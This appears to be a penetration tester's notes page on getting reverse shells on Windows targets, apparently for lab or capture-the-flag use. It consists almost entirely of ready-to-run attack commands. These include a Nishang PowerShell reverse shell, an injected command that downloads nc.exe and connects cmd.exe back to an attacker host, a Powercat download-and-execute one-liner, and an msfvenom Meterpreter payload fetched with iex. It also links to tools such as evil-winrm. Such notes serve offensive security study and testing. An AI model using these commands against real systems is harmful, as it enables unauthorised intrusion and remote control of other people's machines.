 
# Guide

1. If you have credentials, see [[3. Exploitation/Operating System Specific/Windows/Tooling/Impacket|Impacket]]

# PowerShell

## Nishang

[nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
```

```
cmd=dir|powershell -c "iwr -uri http://192.168.49.57:8000/nc.exe -outfile %temp%\\n.exe"; %temp%\\nc.exe -e cmd.exe 192.168.49.57 80
```

## Powercat

```
c:\\windows\\SysNative\\WindowsPowershell\\v1.0\\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.19.62:8000/powercat.ps1'); powercat -c 192.168.19.62 -p 443 -e cmd.exe
```
# PHP

[GitHub - Dhayalanb/windows-php-reverse-shell: Simple php reverse shell implemented using binary .](https://github.com/Dhayalanb/windows-php-reverse-shell)

# MSFVenom

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1`

`iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')`

# Loud Option

[GitHub - Hackplayers/evil-winrm: The ultimate WinRM shell for hacking/pentesting](https://github.com/Hackplayers/evil-winrm)